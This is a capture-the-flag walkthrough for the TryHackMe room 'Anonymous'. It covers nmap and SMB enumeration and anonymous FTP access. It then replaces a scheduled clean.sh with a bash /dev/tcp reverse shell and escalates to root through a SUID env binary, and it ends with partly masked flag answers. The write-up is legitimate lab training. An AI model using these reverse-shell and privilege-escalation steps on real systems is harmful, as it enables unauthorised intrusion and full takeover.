






# Course Capstone - Anonymous

Here is the walkthrough for the TryHackMe room [Anonymous](https://tryhackme.com/room/anonymous).

## Initial Enumeration
First I ran an Nmap scan against the host to see what services are running:



The Nmap results help answer questions **1-3**.

Since there is an FTP server running on port 21, let's check if an **anonymous FTP login** is allowed: `nmap -p 21 --script ftp-anon [MACHINE IP]`



We can in fact log in to the FTP anonymously, so let's remember that for later.

Pivoting now to enumerate the Samba server: `smbclient -L 10.65.187.198 `



The SMB enumeration helps to answer question **4**.

## Gaining a Foothold
Start by anonymously logging into the FTP server: `ftp [MACHINE IP] 21` using the username **anonymous** and an empty password.

List the directory contents using `ls` and download the files using `get [filename]`

There are three files in the **scripts** directory:
* clean.sh 
```
#!/bin/bash


tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
* removed_files.log
```
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete

```
* to_do.txt
```
I really need to disable the anonymous login...it's really not safe
```

It appears that the script **clean.sh** runs regularly, so perhaps this can be manipulated to obtain access.

I obtained user level access on the machine by uploading a reverse shell onto the FTP server as a malicious version of **clean.sh**:
```
#!/bin/bash
bash -i >& /dev/tcp/[LISTENING IP]/[LISTENING PORT] 0>&1
```

`put clean.sh`

Start the netcat listener using `nc -nlvp [LISTENING PORT]`



The user flag can be found in **/home/namelessone/user.txt**.

## Escalating Privileges

Looking for binaries with the SUID bit set using `find / -type f -perm -04000 -ls 2>/dev/null`



Use [GTFObins](https://gtfobins.org/) to find a way to exploit one of the given binaries.

Using `/usr/bin/env /bin/sh -p` should launch a root level shell.



Root access has now been achieved. Find the flag in **/root/root.txt**.

## Questions
1. Enumerate the machine.  How many ports are open?

Answer: **4**

---

2. What service is running on port 21?

Answer: **ftp**

---
3. What service is running on ports 139 and 445?

Answer: **smb**

---
4. There's a share on the user's computer.  What's it called?

Answer: **pics**

---
5. user.txt

Answer: **90d6f99258581\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\***

---
6. root.txt

Answer: **4d930091c31a62\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\***